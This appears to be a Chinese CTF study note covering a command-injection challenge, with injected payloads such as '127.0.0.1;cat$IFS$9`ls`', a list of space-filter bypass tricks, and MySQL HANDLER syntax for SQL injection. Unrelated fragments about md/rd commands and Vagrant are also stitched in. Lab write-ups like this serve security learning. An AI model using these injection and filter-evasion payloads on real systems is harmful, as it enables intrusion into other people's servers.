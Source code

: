 |md	|	创建一个文件夹|	使用x86_64镜像的linux-gnu
|rd	|	删除一个文件夹|	使用x86_64镜像的linux-gnu

如图获取flag
![](imags/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-07-06%20153046.png)
## 命令执行漏洞
![](imags/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-07-06%20160044.png)
于是构造paylode:127.0.0.1;ls
![](imags/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-07-06%20160328.png)
发现直接打开不了，判断是进行了字符过滤
绕过空格过滤的方法
```bash
${IFS}$9
{IFS}
$IFS
${IFS}
$IFS$1 //$1改成$加其他数字貌似都行
IFS
< 
<> 
{cat,flag.php}  //用逗号实现了空格功能，需要用{}括起来
%20   (space)
%09   (tab)
X=$'cat\x09./flag.php';$X       （\x09表示tab，也可以用\x20）
```

内联执行绕过
内联，就是将反引号内命令的输出作为输入执行。
```bash
?ip=127.0.0.1;cat$IFS$9`ls`

$IFS在Linux下表示为空格
$9是当前系统shell进程第九个参数持有者，始终为空字符串，$后可以接任意数字
这里$IFS$9或$IFS垂直，后面加个$与{}类似，起截断作用
```
于此获取flag
![](imags/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202023-07-06%20161258.png)

### sql注入
判断是否有注入点
展现表
handle
```bash
handle不是通用的SQL语句，是Mysql特有的，可以逐行浏览某个表中的数据，格式：
打开表：
HANDLER 表名 OPEN ;

查看数据：
HANDLER 表名 READ next;

关闭表：
HANDLER 表名 READ CLOSE;
```
## Vagrant使用
现在，您已经探索了开发环境，是时候停止、关闭并最终销毁环境了。使用```Vagrant```时，您将根据停止工作的时间以及是否希望能够返回工作的时间从这些选项中进行选择。
